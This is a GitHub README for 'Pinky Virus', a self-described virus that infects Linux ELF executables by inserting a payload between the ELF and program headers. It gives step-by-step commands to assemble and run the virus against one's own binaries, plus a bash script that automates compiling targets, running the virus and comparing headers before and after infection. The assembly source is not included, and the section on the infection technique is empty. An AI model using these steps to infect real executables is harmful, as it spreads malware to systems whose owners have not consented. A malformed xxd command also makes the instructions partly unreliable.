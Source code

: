 # Pinky Virus
It is a simple virus that aims to infect ELFs by generating dumps spaces and inserting payload between ELF and Program header. And this will let the ELF to execute that payload.

## Installation:
1. First clone the repository
   ```bash
   git clone github.com/president-xd/pinky-virus
   ```
2. Change the directory to Repository
  ```bash
  cd pinky-virus
  ```
3. Place your ELF in the directory where ELF is located.
   ```bash
   cp /path/of/elf /path/to/pinky-virus
   ```
4. Compile the ASM file
   ```bash
   fasm pinky-virus
   ```
5. Add random bytes to positon after the magic bytes
   ```bash
   echo -n 544d5a00 | xxd -r -p -s pinky-virus
   ```
6. Execute the pinky-virus
   ```bash
   sudo chmod +x pinky-virus
   ./pinky-virus
   ```
7. Run your ELFs
   ```bash
    ./your-elfs-name
   ```

## Demo Installation
Here is the demo, that we used in the our system. We used automated injection using bash script to automate all commands. In this demo, we used sample files named file.c and file2.c. Here are codes and results:
1. Code of File.c
   ```c
    #include <stdio.h>

    int main(){
      printf("This is file.c file.");
      return 0;
    }
   ```
2. Code of File2.c named hi.c
      ```c
    #include <stdio.h>

    int main(){
      printf("Hello World!");
      return 0;
    }
   ```
**Note:** The pinky-virus file is available in the my github repo.
### Before Infection
![image](https://github.com/user-attachments/assets/2d97481f-1e84-4c18-b71a-7df4c48b64d4)

![image](https://github.com/user-attachments/assets/5c36f850-047a-4bae-8ba0-c87cbc5a098b)

![image](https://github.com/user-attachments/assets/8deedb17-ce36-45f3-a006-bf6e67432029)

### After Infection
![image](https://github.com/user-attachments/assets/4ebc7c81-a3c0-48d0-8db3-07563bc3de06)

![image](https://github.com/user-attachments/assets/b829f255-b589-45f7-a618-84b84a5f61cb)

![image](https://github.com/user-attachments/assets/1a94dc26-b921-47b8-83db-0d8dc1efcdde)

## Script that we used for automation
```bash
#!/bin/bash

# Define the file names to check and delete
files=("virus" "hi" "file")

# Delete specified files
echo "========================= CLEANING UP OLD FILES ========================="
for file in "${files[@]}"; do
    if [ -f "$file" ]; then
        echo "Deleting $file..."
        rm "$file"
    else
        echo "$file not found, skipping..."
    fi
done
echo "======================================================================="
echo " "

# Compile the commands
echo "============================= COMPILATION ============================="
echo "1. Compiling file.c..."
gcc file.c -o file -no-pie && echo "file.c compiled successfully!" || echo "Failed to compile file.c."
echo "------------------------------------------------------------------------"

echo "2. Compiling hi.c..."
gcc hi.c -o hi -no-pie && echo "hi.c compiled successfully!" || echo "Failed to compile hi.c."
echo "------------------------------------------------------------------------"

echo "3. Assembling virus.asm..."
fasm virus.asm && echo "==>  Virus.asm assembled successfully!" || echo "Failed to assemble virus.asm."
echo "======================================================================="
echo " "

# Analyze ELF headers before injection
echo "========================= ELF HEADER ANALYSIS ========================="
if [ -f "hi" ]; then
    echo "----------------------------- hi.c ELF Header --------------------------"
    readelf -h hi
else
    echo "Error: hi executable not found!"
fi
echo "----------------------------------------------------------------------"
echo " "

if [ -f "file" ]; then
    echo "--------------------------- file.c ELF Header --------------------------"
    readelf -h file
else
    echo "Error: file executable not found!"
fi
echo "----------------------------------------------------------------------"
echo " "

# Execute ELF files before injection
echo "====================== EXECUTION BEFORE INJECTION ======================"
if [ -x "./hi" ]; then
    echo "----------------------------- Executing hi.c --------------------------"
    ./hi
else
    echo "Error: Unable to execute hi executable!"
fi
echo ""
echo "----------------------------------------------------------------------"
echo " "

if [ -x "./file" ]; then
    echo "--------------------------- Executing file.c --------------------------"
    ./file
else
    echo "Error: Unable to execute file executable!"
fi
echo ""
echo "----------------------------------------------------------------------"
echo " "

# Execute virus file
echo "========================= VIRUS EXECUTION ============================="
if [ -f "virus" ]; then
    echo "Executing virus..."
    chmod +x virus
    echo "------------------------------------------------------------------------"
    ./virus && echo "==>  Virus executed successfully!" || echo "Error executing virus file!"
    echo "------------------------------------------------------------------------"
else
    echo "Error: virus file not found!"
fi
echo "======================================================================="
echo " "

# Inject magic byte (for educational purposes only)
echo "========================= MAGIC BYTE INJECTION ========================="
if [ -f "virus" ]; then
    echo -n "544d5a00" | xxd -r -p > virus
    echo "Magic byte injection completed."
else
    echo "Error: virus file not found for injection!"
fi
echo "======================================================================="
echo " "

# Analyze ELF headers after injection
echo "====================== ELF HEADER AFTER INJECTION ======================"
if [ -f "file" ]; then
    echo "--------------------------- file.c ELF Header --------------------------"
    readelf -h file
else
    echo "Error: file executable not found!"
fi
echo "----------------------------------------------------------------------"
echo " "

if [ -f "hi" ]; then
    echo "----------------------------- hi.c ELF Header --------------------------"
    readelf -h hi
else
    echo "Error: hi executable not found!"
fi
echo "----------------------------------------------------------------------"
echo " "

# Execute ELF files after injection
echo "====================== EXECUTION AFTER INJECTION ======================="
if [ -x "./hi" ]; then
    echo "----------------------------- Executing hi.c --------------------------"
    ./hi
else
    echo "Error: Unable to execute hi executable!"
fi
echo "----------------------------------------------------------------------"
echo " "

if [ -x "./file" ]; then
    echo "--------------------------- Executing file.c --------------------------"
    ./file
else
    echo "Error: Unable to execute file executable!"
fi
echo ""
echo "----------------------------------------------------------------------"
echo " "

# End of script
echo "=============================== FINISHED =============================="
```

## Infection Technique in Detail





